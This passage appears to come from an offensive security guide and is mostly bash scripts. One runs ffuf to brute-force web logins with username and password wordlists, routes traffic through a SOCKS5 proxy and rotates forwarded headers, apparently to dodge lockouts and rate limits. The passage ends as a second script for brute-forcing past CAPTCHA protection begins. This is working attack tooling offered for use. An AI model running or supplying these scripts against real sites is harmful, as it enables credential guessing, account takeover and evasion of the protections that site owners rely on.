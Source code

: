 ```bash

# Run FFUF
if [[ "$METHOD" == "get" ]]; then
    FFUF_URL="${FULL_ACTION}?${DATA}"
    ffuf -u "$FFUF_URL" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -w "/tmp/forwarded.txt:FUZZ3" \
         -x "socks5://127.0.0.1:16379" \
         -X GET \
         -ac -c -r -mc 200 \
         -H "FUZZ3" \
         "${HEADERS[@]}"
else
    ffuf -u "$FULL_ACTION" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -w "/tmp/forwarded.txt:FUZZ3" \
         -x "socks5://127.0.0.1:16379" \
         -X POST -d "$DATA" \
         -ac -c -r -mc 200 \
         -H "FUZZ3" \
         "${HEADERS[@]}"
fi
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x forwarded-bruteforce.sh;sudo ./forwarded-bruteforce.sh $WEBSITE
```

### Unlock Mechanism <a href="#unlock-mechanism" id="unlock-mechanism"></a>

#### [Katana](https://github.com/projectdiscovery/katana)[ ](https://github.com/trimstray/multitor)& [FFUF](https://github.com/ffuf/ffuf)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano captcha-bruteforce.sh
```

```bash
#!/bin/bash

# Config & Colors
RED='\e[1;31m'; GREEN='\e[1;32m'; YELLOW='\e[1;33m'; CYAN='\e[1;36m'; RESET='\e[0m'
color_print() { printf "${!1}%b${RESET}\n" "$2"; }

# Root Check
[[ "$(id -u)" -ne 0 ]] && { color_print RED "[X] Please run as ROOT."; exit 1; }

# Input Check
if [ $# -lt 1 ]; then
    echo "Usage: $0 <domain.com>"
    exit 1
fi

URL="$1"
```